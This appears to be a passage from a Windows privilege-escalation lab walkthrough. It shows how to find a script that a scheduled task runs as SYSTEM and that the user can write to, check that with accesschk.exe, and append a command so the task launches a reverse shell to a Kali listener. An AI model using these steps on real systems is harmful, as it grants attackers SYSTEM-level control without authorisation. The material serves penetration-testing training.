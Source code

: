 
View the contents of the C:\DevTools\CleanUp.ps1 script:

`type C:\DevTools\CleanUp.ps1`

The script seems to be running as SYSTEM every minute. Using accesschk.exe, note that you have the ability to write to this file:

`C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`

Start a listener on Kali and then append a line to the C:\DevTools\CleanUp.ps1 which runs the reverse.exe executable you created:

`echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`

Wait for the Scheduled Task to run, which should trigger the reverse shell as SYSTEM.